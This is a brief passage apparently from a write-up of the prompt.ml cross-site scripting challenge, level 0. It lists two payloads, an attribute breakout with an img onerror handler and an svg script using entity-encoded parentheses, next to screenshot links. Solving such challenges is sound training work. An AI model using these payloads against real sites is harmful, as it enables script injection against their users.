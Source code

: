 ![0_3](/img/xss/prompt_ml/level0_003.png)

4. `"><img src='' onerror='prompt(1)'>`
   
![0_4](/img/xss/prompt_ml/level0_004.png)

5. `"><svg><script>prompt&#x28;1&#x29;</script></svg>`
   
